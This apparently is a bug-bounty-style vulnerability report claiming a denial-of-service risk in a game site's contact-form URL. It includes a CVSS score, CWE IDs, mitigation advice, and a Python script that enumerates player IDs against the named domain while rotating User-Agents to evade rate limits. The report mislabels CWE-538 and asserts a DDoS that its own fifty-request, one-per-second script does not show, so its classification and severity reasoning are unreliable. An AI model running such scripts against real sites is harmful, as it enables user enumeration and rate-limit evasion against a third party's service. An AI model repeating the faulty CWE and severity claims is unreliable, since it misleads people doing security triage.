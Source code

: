 # Snookered
Giraffe games report.

### Report: DDoS Through Resource Exhaustion Due to Data Exposure in URLs

#### Vulnerability Overview:
**Vulnerability Name:** DDoS Through Resource Exhaustion Due to Data Exposure in URLs  
**Vulnerability Description:**  
The Giraffe Games platform is susceptible to a Denial-of-Service (DoS) attack through resource exhaustion due to data exposure in URLs. The vulnerability is present in the URL structure used in their contact forms, which exposes sensitive data, such as player names and IDs, allowing attackers to exploit this by sending a large volume of requests to the server, potentially causing the service to slow down or become unavailable. By modifying the `player_id` and `player_name` parameters and continuously making requests using automated scripts, attackers can bypass rate limits by using random user agents, leading to a resource exhaustion scenario.

**Affected URL:**  
`https://www.giraffe-games.com/contact/?player_name=<player_name>&game=Snooker%20Stars&player_id=<player_id>`

#### CVSS Score Calculation:
**Base Metrics:**
- **Attack Vector (AV):** Network (N)  
- **Attack Complexity (AC):** Low (L)  
- **Privileges Required (PR):** None (N)  
- **User Interaction (UI):** None (N)  
- **Scope (S):** Unchanged (U)  
- **Confidentiality (C):** None (N)  
- **Integrity (I):** None (N)  
- **Availability (A):** High (H)  

**CVSS Base Score:** 7.5 (High)  
This score is determined by the potential impact on availability with a low complexity attack vector and no privileges required.

#### CWE ID:
**CWE-538:** Insecure Handling of URL Parameters  
**CWE-400:** Uncontrolled Resource Consumption  

These CWEs represent the nature of the vulnerability. CWE-538 describes the insecure exposure of sensitive data via URLs, and CWE-400 covers the concept of resource exhaustion due to an uncontrolled input.

### Proof of Concept Script:
The following is a sample script in Python that uses the `requests` library to automate sending requests with randomized player IDs and User-Agents, bypassing rate limits:

```python
import requests
import random
import time

# URL structure
base_url = "https://www.giraffe-games.com/contact/?player_name=JonBonJohova&game=Snooker%20Stars&player_id="

# Random User-Agents to avoid rate limiting
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36',
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
    'Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; AS; rv:11.0) like Gecko',
    # Add more User-Agents if needed
]

def send_requests():
    for i in range(79049750, 79049800):  # Range of player IDs
        player_id = str(i)
        url = base_url + player_id
        headers = {
            'User-Agent': random.choice(user_agents)  # Randomize User-Agent
        }
        
        try:
            response = requests.get(url, headers=headers)
            print(f"Request to {url} - Status Code: {response.status_code}")
        except Exception as e:
            print(f"An error occurred: {e}")
        
        time.sleep(1)  # Delay to avoid overwhelming the server too quickly

if __name__ == "__main__":
    send_requests()
```

### Description of the Script:
- **Base URL:** The script uses the provided base URL structure and modifies the `player_id` parameter within a specific range.
- **Random User-Agents:** To bypass rate limits, it cycles through a list of random User-Agents.
- **Request Sending:** The script sends GET requests to the server and prints the status code for each request.
- **Time Delay:** A time delay of 1 second between requests is added to prevent immediate detection, but this can be adjusted.

### Recommendations:
1. **Rate Limiting:** Implement proper rate limiting on the server-side that takes into account IP addresses, not just User-Agents.
2. **Input Validation:** Ensure that the `player_id` and `player_name` parameters are validated, and unnecessary data is not exposed in URLs.
3. **CAPTCHA Implementation:** Consider adding CAPTCHAs for sensitive endpoints that can be exploited.
4. **Logging & Monitoring:** Implement logging and monitoring to detect and mitigate large-scale automated requests.

---

This report outlines the vulnerability, provides a CVSS score, and includes a CWE ID related to the issue. The script demonstrates how an attacker might exploit this vulnerability. Implementing the recommended mitigations will help in reducing the risk.
